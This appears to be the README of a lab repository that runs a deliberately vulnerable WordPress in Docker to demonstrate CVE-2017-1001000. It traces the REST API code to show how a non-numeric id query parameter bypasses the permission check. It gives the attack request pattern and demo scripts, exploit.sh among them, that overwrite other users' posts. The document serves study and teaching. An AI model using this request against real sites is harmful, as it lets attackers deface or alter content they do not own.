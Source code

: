# docker-wordpress-content-injection

https://www.cvedetails.com/cve/CVE-2017-1001000/

## Install

```bash
# Launch two containers: mysql and wordpress
docker-compose up
```

**Warning:** a vulnerable Wordpress will be available on port `8080`.

You might need to install `docker-compose` first. If you get an error
`Couldn't connect to Docker daemon`, run it (and the following docker commands) with `sudo`.


```bash
# In another terminal
# Get the id of the mysql container
docker ps | grep dockerwordpresscontentinjection_db
./load_db.sh <mysql-container-id>
```
You can ignore the MySQL warning if you get one.

* Test the API:

```bash
./list_posts.sh
./create_post.sh mytitle mycontent
```

If you cannot create a post, you need to install the plugin [`JSON Basic Authentication`](https://github.com/WP-API/Basic-Auth):

* Download the plugin as zip
* Login on [WordPress admin](http://127.0.0.1:8080/wp-admin) (`admin/admin`)
* Go to [plugin page](http://127.0.0.1:8080/wp-admin/plugins.php)
* Add New
* Upload Plugin
* Select the .zip
* The plugin `JSON Basic Authentication` should appear on the plugins page. Activate it.

# Exploit

The requests are handled in `wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php`
[line 80](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L80).

The route needs a post id in the url:

```bash
./get_post.sh 10
```

If the id is not numeric, the API returns an error because the url does not match the regex:

```bash
./get_post.sh 10ABC
```

If a query param `id` is specified, its value overrides the one in the url body:

```bash
./get_post_query_param.sh 10 11
# The obtained id is 11 and not 10
```

**But if the query param id is not numeric, no errors are raised:**

```bash
./get_post_query_param.sh 10 11ABC
```

Now, let's take the request `POST /wp-json/wp/v2/posts/10?id=11ABC` and look at
the route to [update a post](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L93):

```php
// wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L93

register_rest_route( $this->namespace, '/' . $this->rest_base . '/(?P<id>[\d]+)', array(
    // ... 
    array(
        'methods'             => WP_REST_Server::EDITABLE,
        'callback'            => array( $this, 'update_item' ),
        'permission_callback' => array( $this, 'update_item_permissions_check' ),
        'args'                => $this->get_endpoint_args_for_item_schema( WP_REST_Server::EDITABLE ),
    ),
    // ...
) );
```

Before performing the update, the function [`wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php:update_item_permissions_check`](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L589)
is called:

```php
// wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L589

public function update_item_permissions_check( $request ) {
    // Because we sent the id in the query param, $request['id'] == "11ABC"
    $post = get_post( $request['id'] );
    $post_type = get_post_type_object( $this->post_type );

    // Surprisingly, if $post == null, the function does not return an error
    if ( $post && ! $this->check_update_permission( $post ) ) {
        return new WP_Error( 'rest_cannot_edit', __( 'Sorry, you are not allowed to edit this post.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! empty( $request['author'] ) && get_current_user_id() !== $request['author'] && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_edit_others', __( 'Sorry, you are not allowed to update posts as this user.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! empty( $request['sticky'] ) && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_assign_sticky', __( 'Sorry, you are not allowed to make posts sticky.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! $this->check_assign_terms_permission( $request ) ) {
        return new WP_Error( 'rest_cannot_assign_term', __( 'Sorry, you are not allowed to assign the provided terms.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    return true;
}
```

**Surprisingly, if `$post` is null, the function does not return an error.** Let's
give a look at
[`wp-includes/post.php:get_post`](https://github.com/Vayel/docker-wordpress-content-injection/blob/145c8df686c1ccf73d136d7a3c9204eeab98272a/wordpress/wp-includes/post.php#L515):

```php
// wp-includes/post.php#L515

function get_post( $post = null, $output = OBJECT, $filter = 'raw' ) {
    // $post == "11ABC"
    if ( empty( $post ) && isset( $GLOBALS['post'] ) )
        // ...
    if ( $post instanceof WP_Post ) {
        // ...
    } elseif ( is_object( $post ) ) {
        // ...
    } else { // As $post is a string, we enter here
        $_post = WP_Post::get_instance( $post );
    }
    // Because `WP_Post::get_instance( $post );` will return `false` (see explanations below)
    // the function returns `null`
    if ( ! $_post )
        return null;
    // ...
}
```

[`wp-includes/class-wp-post.php:WP_Post::get_instance`](https://github.com/Vayel/docker-wordpress-content-injection/blob/145c8df686c1ccf73d136d7a3c9204eeab98272a/wordpress/wp-includes/class-wp-post.php#L210)
will return `false` as `$post_id` is not numeric:

```php
// wp-includes/class-wp-post.php#L210

public static function get_instance( $post_id ) {
    global $wpdb;
    if ( ! is_numeric( $post_id ) || $post_id != floor( $post_id ) || ! $post_id ) {
        return false;
    }
    // ...
}
```

So `get_post` will return `null` and the permission check will pass. Then, the function
[`wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php:update_item`](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L622)
will be called with `$request['id'] = "11ABC"`:

```php
public function update_item( $request ) {
    // $request['id'] == "11ABC"
    $id = (int) $request['id'];
    // $id == 11
    // Here, `get_post` does not return `null`
    // Then, we do not enter the `if` which returns an error
    $post = get_post( $id );
    if ( empty( $id ) || empty( $post->ID ) || $this->post_type !== $post->post_type ) {
        return new WP_Error( 'rest_post_invalid_id', __( 'Invalid post ID.' ), array( 'status' => 404 ) );
    }
    // The item will be updated
    // ...
}
```

This time, the function `get_post` is called **with the id cast as an integer**. Due
to PHP [type-juggling](http://php.net/manual/en/language.types.type-juggling.php),
the variable `$id` will be equal to `11`. So `get_post` won't return `null` and `update_item`
won't return an error. **Because we have already
passed the permission check step**, the post with id `11` will be updated
even if it belongs to another user.

To conclude, it is possible for anyone to update any post of id `N` with a request such
as `POST /wp-json/wp/v2/posts/1984?id=N_then_non_numeric_chars`.

## Demo

Make sure Wordpress is running and the database is loaded:

```bash
docker-compose up
docker ps | grep dockerwordpresscontentinjection_db
./load_db.sh <mysql-container-id>
```

Get the posts of author1:

```bash
./list_posts.sh author1
```

Update a post:

```bash
./update_post.sh 14 mysupercontent author1
./get_post.sh 14 # The content has changed
```

Get the posts of author2:

```bash
./list_posts.sh author2
```

Update a post of author2 with author1:

```bash
./update_post.sh 17 mysupercontent author1
# Error: Sorry, you are not allowed to edit this post.
```

Update a post of author2 with author1 and a malicious url:

```bash
./exploit.sh 17 mysupercontent author1
./get_post.sh 17 # The content has changed
```

Stop the containers:

```bash
docker-compose stop
docker-compose rm
```
